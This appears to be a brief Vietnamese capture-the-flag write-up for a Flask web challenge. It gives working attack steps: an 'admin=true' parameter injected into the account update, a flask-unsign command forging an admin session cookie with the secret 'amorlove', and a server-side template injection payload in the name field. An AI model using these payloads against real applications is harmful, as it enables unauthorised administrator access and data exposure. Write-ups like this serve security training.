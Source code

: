 # giới thiệu
có một số chức năng: đăng kí, đăng nhập, update account
# solution
trong phần update account thêm vào param admin=true
final payload 
```&admin=true```
flask-unsign -S 'amorlove'  -s  -c "{'is_admin': True, 'user_id': '2', 'username': 'admin'}"
go to /dashboard
ssti in name => ```{{self.__dict__}}```
# lưu ý sau khi làm những bài này
dumedeohoplygica
